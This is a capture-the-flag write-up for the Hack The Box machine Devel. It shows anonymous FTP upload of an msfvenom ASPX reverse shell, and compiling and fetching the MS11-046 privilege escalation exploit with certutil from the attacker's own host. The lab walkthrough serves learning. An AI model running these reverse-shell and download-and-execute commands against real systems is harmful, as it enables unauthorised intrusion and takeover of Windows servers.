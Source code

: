# Devel

This is my write-up for the Hack The Box machine called **Devel** located at: [https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/Devel).

### Exploitation:

I started off of a nmap scan:

![](<../../.gitbook/assets/image (351).png>)

Since HTTP is open, I wanted to see what is offered on it:

![](<../../.gitbook/assets/image (328).png>)

This gave me a hint that the machine is running IIS7 as their software. At this time, my deeper nmap scan (`nmap -T4 -A -v -p- 10.10.10.5 -oN devel.nmap`) had ended:

![](<../../.gitbook/assets/image (374).png>)

From this, I can see that FTP has anonymous login allowed:

![](<../../.gitbook/assets/image (349).png>)

Using `wget -r ftp://anonymous:@10.10.10.5/` I downloaded all of the files in the folder. I then found the following **Metaploit** module:

![](<../../.gitbook/assets/image (364).png>)

I then was able to get into that directory through FTP, and was able to upload files into it:

![](<../../.gitbook/assets/image (370).png>)

![](<../../.gitbook/assets/image (375).png>)

I was trying various files to upload, but the one that ended up working was the ASPX file. I created the file by running the following:

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

I then used **Netcat** to then get the reverse shell:

![](<../../.gitbook/assets/image (366).png>)

At this point, I had a shell, but was not able to read files from the user or the Administrators' folders. I then found [this write-up](https://mrreh.com/hackthebox-devel-writeup/), which clarified what I should be doing. I was supposed to find and run [this exploit](https://www.exploit-db.com/exploits/40564) from exploit-db. I ran the following commands (after I downloaded the exploit):

```
//on my own machine
sudo apt-get install gcc-mingw-w64 //to install the i686-w64-mingw32-gcc command
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 //MS11-046.c is the exploit

//on remote machine
mkdir temp //thus making the C:\Users\Public\temp folder //going to have to CD into it

//on my own machine
python3 -m http.server 80 //host the files

//remote machine
certutil -urlcache -f http://10.10.xx.xx:80/MS11-046.exe MS11-046.exe
MS11-046.exe //should get you NT System Authority
```

I was then able to get the **root.txt** flag:

![](<../../.gitbook/assets/image (333).png>)

I then also got the **user.txt** flag as well:

![](<../../.gitbook/assets/image (365).png>)

### What I learned:

* That I should view the output of **systeminfo** more closely
* The **certutil** command on Windows
* That the **user.txt** file could be renamed to **user.txt.txt**

